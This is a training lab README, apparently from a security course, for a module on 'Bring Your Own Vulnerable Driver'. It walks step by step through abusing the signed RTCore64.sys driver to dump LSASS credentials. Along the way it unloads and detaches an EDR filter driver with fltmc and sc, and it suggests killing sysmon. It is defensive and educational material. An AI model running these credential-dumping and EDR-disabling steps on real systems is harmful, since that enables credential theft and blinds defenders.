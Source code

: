 # Bring Your Own Vulnerable Driver

The point of this module is to cover the concepts of leveraging drivers to access protected processes and bypass protections.

For more BYOD information or downloads this is a great resource:

https://www.loldrivers.io/

**RTCore64.sys** is the driver we will be abusing.

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys and RTCore32.sys) allows any authenticated user to read and write to arbitrary memory, I/O ports, and MSRs. This can be exploited for privilege escalation, code execution under high privileges, and information disclosure. These signed drivers can also be used to bypass the Microsoft driver-signing policy to deploy malicious code.

Dumping lsass will be the name of the game. 


1. In the lab environment, open up the **Operator Desktop**, once loaded and the terminal pops up, change the permissions on the lab folder.
`sudo chown pslearner:pslearner -R /home/pslearner/lab`

2. Now change directory to that folder.
`cd /home/pslearner/lab`
3. Open VSCODE.
`code .`
5. Once open, accept any pop ups. Trusting the author etc.
6. In the top left, use the mouse to click "terminal" then "new terminal" to launch a bash terminal in the bottom pane.
7. In the terminal in the bottom plane, run python simple server to host the files.
8. Open the 2-custom-edr-evasion>1-Custom-BYOD folder on the left.
9. Click dump-that-lsass.cpp to open the file.
> **Discuss Signatures**
> - On Disk / In Memory
> - Demo dump-that-lsass execution.
11. Open the **Windows Target 2**
12. Use the search bar to search for "security" and open the "Windows Security" app.
13. Go to Virus & Threat Protection and click the "turn on" button.
14. Now open an Administrative command prompt by search for cmd.exe, right click the command prompt app and select run as administrator.
15. Change directory to the lab files for this module.
`cd c:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD`
16. Open task manager, click "more details". Sort using the column "name" with a click. Scroll down to find "Local Security Authority Process". Right click it and open properties. Note this is LSASS. Close the window.
17. Right click the LSASS process gain, and clikc "Create dump file".  Wait a moment and notice the alert.
18. Back in your Administrative CMD prompt. Copy dump-that-lsass.exe to the c drive.
`copy dump-that-lsass.exe c:\dump-that-lsass.exe`
> **Discuss Privilege Error**
> - system-that-lsass execution
> - talk about pp/ppl lsa protection win11/2022
18. In the adminstrative command prompt run **system-that-lsass.exe**
`system-that-lsass.exe`
19. Open windows file explorer and navigate to "C:\Windows\Temp" and open launcher.log and lsass_dumper.log.
20. Open a powershell command prompt and check PPL.
`Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" | Select-Object RunAsPPL`
21. In the Administrative command prompt, use dir to identify the lsass_encoded.bin file.
22. Decode it with decode-that-lsass.exe.
`decode-that-lsass.exe`
22. Go back to the **Operator Desktop**
> **discuss nikito**
> - miniwritedump
> - temp files
23. Time for EDR. Back on the **Windows Target 2** device. Install EDR and file beat monitor.
> [Setup Steps](../../0-setup/README.md)
24. With EDR installed, use the Administrative command prompt to re-run the system-that-lsass.exe program.
`system-that-lsass.exe`
25. Open elasticsearch with the link on the desktop. & Login. un: **elastic** pw: **alwaysbelearning**
26. In he top left go to discover.
27. In the top right change the time to the last 15 minutes. (Feel free to play around with this however you want.)
30. Use free text search to search for "lsass".
> **discuss monitoring vs detection**
> - don't always have to disable
31. Driver time. Back in the administrative command prompt. Copy the driver to the C:\Windows\Temp folder.
> make sure you are in the "C:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD"
`copy RTCore64.sys c:\Windows\Temp\RTCore64.sys`
32. Load the driver.
`driver_loader.exe`
33. Check logs in C:\Widnows\Temp\driver_loader.log
34. Check for loaded driver, open services and look for MyRTCore64.
**Discuss why it isn't there**
35. Query for the driver with SC in the command line.
`sc query MyRTCore64`
36. Check for more detail with driverquery.
`driverquery /v /fo table`
36. Unload the driver.
`sc stop MyRTCore64.sys`
**Did you see what I saw?**
37. Unload edrdrv.
`sc stop edrdrv`
**Discuss failure**
38. Run fltmc to detach and unload file filter drivers.
```
fltmc
fltmc instances -f edrdrv
fltmc detach edrdrv c:
fltmc detach edrdrv \Device\Mup
fltmc unload edrdrv
fltmc
```
39. Now Check SC Query.
`sc query edrdrv`
40. Stop edrdrv
`sc stop edrdrv`
41. In your administrative command prompt, run lsass_dumper.exe.
> full path C:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD
```
cd driver-dumper
lsass_dumper.exe
```
35. Check
36. Run lsass_dumper.exe
`lsass_dumper.exe`
37. Check logs in C:\Windows\Temp\lsass_dumper
> **discuss failure**
> - Check code for driver-dumper in Operator Desktop
> - Talk about BYOD moving forward and whats needed.
39. Go check for your activity after disabling the edrdrv filter in elasticsearch.
> Some search terms.
```
system-that-lsass.exe
lsass_dumper.exe
lsass_encoded.bin
```
> Run more code and see what does and doesn't pop up. this is the end of this module.
> **Discussion**
> - did you see sysmon? I saw sysmon...
> - kill sysmon (not tested we are in this together, awww)

Small pause while we shift gears. Then heading to the custom edr evasion techniques. But keep in mind they are fun and experiemental.
[Custom API EDR Evastion](../2-Custom-API/README.md)

